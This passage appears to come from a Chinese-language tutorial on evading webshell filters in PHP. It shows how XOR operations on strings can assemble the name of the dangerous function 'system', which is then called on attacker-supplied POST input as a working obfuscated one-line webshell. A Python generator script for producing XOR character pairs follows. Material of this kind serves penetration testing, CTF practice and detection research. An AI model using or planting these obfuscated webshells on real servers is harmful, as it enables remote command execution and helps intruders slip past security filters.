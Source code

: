 主要通过各种嵌套、异或以及运算来拼装出来想要的函数，再利用 PHP 允许动态函数执行的特点，拼接处高危函数名，如 `system` ，然后动态执行恶意代码之即可

### 8.1 异或

`^` 为异或运算符，在 PHP 中两个变量进行异或时，会将字符串转换成二进制再进行异或运算，运算完再将结果从二进制转换成了字符串

```php
$f = ('.'^']').('$'^']').('.'^']').('4'^'@').('8'^']').(']'^'0');   //system 高危函数
$f = ('.$.48]' ^ ']]]@]0');   //等同于这样
$f($_POST['aabyss']);
```

这里的话，可以参考国光大佬的 Python 脚本生成异或结果，然后来替换即可：`python3 xxx.py > results.txt`

```python
import string
from urllib.parse import quote

keys = list(range(65)) + list(range(91,97)) + list(range(123,127))
results = []

for i in keys:
    for j in keys:
        asscii_number = i^j
        if (asscii_number >= 65 and asscii_number <= 90) or (asscii_number >= 97 and asscii_number <= 122):
            if i < 32 and j < 32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ ascii{j} =  {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i < 32 and j >=32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i >= 32 and j < 32:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            else:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)

results.sort(key=lambda x:x[1], reverse=False)

for low_case in string.ascii_lowercase:
    for result in results:
        if low_case in result:
            print(result[0])

for upper_case in string.ascii_uppercase:
    for result in results:
        if upper_case in result:
            print(result[0])
```
